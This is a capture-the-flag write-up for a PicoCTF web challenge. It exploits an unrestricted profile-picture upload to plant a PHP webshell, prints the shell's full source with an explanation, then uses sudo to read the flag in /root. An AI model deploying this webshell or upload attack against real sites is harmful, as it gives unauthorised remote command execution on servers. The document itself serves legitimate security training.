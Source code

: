 ```yaml
---
title: n0s4n1ty 1
published: 2025-08-07
description: We exploited an unrestricted file upload to deploy a PHP webshell, gaining command execution. Then, using sudo, we captured the flag.
image: ''
tags: [CTF, picoctf, web]
category: PicoCTF
draft: false
---
```


*“A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.*

<br>

The challenge starts by giving us a simple page containing just a profile upload interface.

![upload interface](./image1.png)


Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.


We can put the code into a file. For testing purposes, we’ll name the file photo.php. To upload, we can simply use the upload interface.

![](./image1-2.png)

The page refreshed, leaving us with two findings: the site has no restrictions on file uploads, and our shell is located in the /uploads/photo.php directory.

![](./image1-3.png)

Visiting that path, we see our shell is working as expected.

![](./image2.png)

We use the command `id` to check which user is running our commands. And the user is **www-data**.

![](./image3.png)

One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**

![](./image4.png)

As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 

![](./image5.png)

If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.
